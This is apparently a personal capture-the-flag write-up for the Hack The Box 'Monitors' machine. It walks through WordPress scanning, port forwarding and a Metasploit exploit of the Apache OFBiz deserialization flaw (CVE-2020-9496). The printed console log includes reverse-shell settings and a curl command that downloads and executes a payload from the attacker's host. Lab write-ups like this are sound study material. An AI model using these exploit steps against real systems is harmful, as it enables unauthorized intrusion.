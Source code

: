 ## User

opening `10.10.10.238` says :

```Sorry, direct IP access is not allowed.
If you are having issues accessing the site then contact the website administrator: admin@monitors.htb
```

So add `admin@monitors.htb` to your `/etc/hosts` file.

Once updated open monitors.htb

using wappalyzer you can see its a wordpress website, so we scan it via `wpscan`  

it was a pain to get the keys and register but once done i was able to see the vulnerabilities and exploits as mentioned in this [file](wpscan.log)

## Root

Use linpeas.sh with `marcus` user.

didnt find anything so check all available ports
`netstat -tulnp` and find port 8443 so i port forward it to my own machine using:

`ssh -L 8443:127.0.0.1:8443 marcus@10.10.10.238 `

then i found this after researching
https://www.zerodayinitiative.com/blog/2020/9/14/cve-2020-9496-rce-in-apache-ofbiz-xmlrpc-via-deserialization-of-untrusted-data
https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d

it shows a msf module imported it using this guide
https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d


```bash
echo "msfconsole output"
msf6 > searchsploit Apache OFBiz
[*] exec: searchsploit Apache OFBiz

------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache OFBiz - Admin Creator                                                                                                                                | multiple/remote/12264.txt
Apache OFBiz - Multiple Cross-Site Scripting Vulnerabilities                                                                                                | php/webapps/12330.txt
Apache OFBiz - Remote Execution (via SQL Execution)                                                                                                         | multiple/remote/12263.txt
Apache OFBiz 10.4.x - Multiple Cross-Site Scripting Vulnerabilities                                                                                         | multiple/remote/38230.txt
Apache OFBiz 16.11.04 - XML External Entity Injection                                                                                                       | java/webapps/45673.py
Apache OFBiz 16.11.05 - Cross-Site Scripting                                                                                                                | multiple/webapps/45975.txt
Apache OFBiz 17.12.03 - Cross-Site Request Forgery (Account Takeover)                                                                                       | java/webapps/48408.txt
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE) via Unsafe Deserialization of XMLRPC arguments                                                        | java/webapps/50178.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
msf6 > use e
Display all 2218 possibilities? (y or n)
msf6 > use exploit/linux/
Display all 353 possibilities? (y or n)
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) >  set lhost 10.10.16.11
lhost => 10.10.16.11
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lport 9001
lport => 9001
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set forceexploit true
forceexploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x64/shell/reverse_tcp 
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started reverse TCP handler on 10.10.16.11:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Target cannot deserialize arbitrary data. ForceExploit is enabled, proceeding with exploitation.
[*] Executing Linux Dropper for linux/x64/shell/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Vu5gCY9zU3w4Qx3
[*] Local IP: http://192.168.1.115:8080/Vu5gCY9zU3w4Qx3
[+] Successfully executed command: curl -so /tmp/rGjfEHFX http://10.10.16.11:8080/Vu5gCY9zU3w4Qx3;chmod +x /tmp/rGjfEHFX;/tmp/rGjfEHFX;rm -f /tmp/rGjfEHFX
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Client 10.10.10.238 (curl/7.64.0) requested /Vu5gCY9zU3w4Qx3
[*] Sending payload to 10.10.10.238 (curl/7.64.0)
[*] Sending stage (38 bytes) to 10.10.10.238
[*] Command shell session 1 opened (10.10.16.11:9001 -> 10.10.10.238:52582) at 2021-10-03 20:30:13 -0400
[*] Server stopped.

```

https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd
